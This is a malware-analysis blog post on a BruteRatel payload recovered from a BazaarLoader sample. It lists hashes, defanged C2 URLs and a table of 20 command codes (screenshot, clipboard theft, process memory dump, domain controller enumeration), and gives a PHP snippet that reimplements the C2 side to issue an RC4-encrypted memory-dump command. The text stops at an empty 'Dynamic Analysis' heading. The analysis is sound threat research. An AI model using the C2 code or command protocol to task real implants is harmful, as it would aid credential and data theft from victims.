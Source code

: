 ```yaml
---
title: "BruteRatel full command analysis 1/X"
date: 2025-03-XX
---
```


<link rel="stylesheet" href="/css/main.css">

## BazaarLoader / BRUTERATEL  

## Context  

BruteRatel SHA256 : d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1  

Sample Source :  
[bazaar.abuse.ch](https://bazaar.abuse.ch/sample/d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1/)   

VirusTotal :  
[VirusTotal](https://www.virustotal.com/gui/file/d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1)  

Network / C2 :  
http://tiguanin[.]com/bazar.php:8041
http://tiguanin[.]com/admin.php:8041  
http://bazarunet[.]com/admin.php:8041  
http://bazarunet[.]com/bazar.php:8041  
http://greshunka[.]com/bazar.php:8041 
http://greshunka[.]com/admin.php:8041 

# INTRO  

This article is a follow-up from a previous post regarding a BazaarLoader sample analysis : [Initial Post](https://cedricg-mirror.github.io/2025/02/04/BazaarLoader.html)  
After going through various stages of unpacking and in-memory loading, I was able to retrieve the finale payload from the initial sample and made it available on [bazaar.abuse.ch](https://bazaar.abuse.ch/sample/d8080b4f7a238f28435649f74fdd5679f7f7133ea81d12d9f10b05017b0897b1/)  

Working on the final payload made the sample analysis much more straightforward and given the sheer amount of functionalities offered by this malware I've decided to review them all.  

This detailed analysis will be split into several parts, I will be presenting in this the 'first' 20 commands that BruteRatel can respond to.  

# COMMAND LIST

Here is a short description of the first 20 command codes and purpose :  

| Command ID   | Description             | Parameter     |
| :----------- | :---------------------- | :------------:|
| "\x9f\x3c"   | GetCurrentDirectory     | NA            |
| "\x3f\xd5"   | GetIpTable              | NA            |
| "\xfe\x4f"   | GetAccountPrivileges    | NA            |
| "\x91\x03"   | LockWorkStation         | NA            |
| "\x09\x06"   | GetLogicalDrives        | NA            |
| "\x01\x0a"   | GetSystemUptime         | NA            |
| "\x06\x0b"   | GetLastInputInfo        | NA            |
| "\x03\x07"   | ExitProcess             | NA            |
| "\x05\x06"   | RevertToSelf            | NA            |
| "\x05\x01"   | GetClipBoardData        | NA            |
| "\x44\xc1"   | EnumDevicesDrivers      | NA            |
| "\x41\x9c"   | Screenshot              | NA            |
| "\xcb\xe3"   | GetDomainControlerInfo  | NA            |
| "\x16\xf6"   | GetNetworkAdaptersInfo  | NA            |
| "\x03\x08"   | ExitThread              | NA            |
| "\x34\x49"   | GetMemoryDump           | "processname" |
| "\x39\xb3"   | GetTcpUdpTables         | NA            | 
| "\x1a\xd4"   | GetIpForwardTable       | NA            | 
| "\x9a\xbe"   | QuerySessionInformation | NA            | 
| "\xb7\x38"   | GetDnsCacheDataTable    | NA            |

# Command Syntaxe  

On the C2 side, a command can be issued this way (example with the GetMemoryDump order) :  

```php
$RC4Key = "S47EFEUO3D2O6641";
$auth_token = "OV1T557KBIUECUM5";

function GetMemoryDump($process_name)
{
	$cmd_id = "\x34\x49 $process_name";
	$cmd_id_b64 = base64_encode($cmd_id);
	
	return $cmd_id_b64;
}

if ($_SERVER['REQUEST_METHOD'] === 'POST')
{
	$cmd_id_b64 = GetMemoryDump("explorer.exe");
	
	$cmd = "$auth_token, $cmd_id_b64";
	$cmd_enc = rc4($Rc4Key, $cmd);
	$cmd_b64 = base64_encode($cmd_enc);
	echo $cmd_b64;
	
	return;
}
```

# Dynamic Analysis  


